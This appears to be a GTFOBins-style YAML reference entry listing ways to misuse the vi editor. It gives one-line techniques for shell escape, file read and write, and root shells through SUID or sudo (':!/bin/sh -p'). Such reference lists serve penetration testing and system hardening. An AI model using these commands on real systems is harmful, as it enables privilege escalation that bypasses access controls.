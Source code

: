 ```yaml
---
functions:
  execute-interactive:
    - code: vi -c ':!/bin/sh'
    - code: |
        vi
        :set shell=/bin/sh
        :shell
  file-write:
    - code: |
        vi file_to_write
        iDATA
        ^[
        w
  file-read:
    - code: vi file_to_read
  suid-enabled:
    - code: ./vi -c ':!/bin/sh -p'
  sudo-enabled:
    - code: sudo vi -c ':!/bin/sh'
---
```

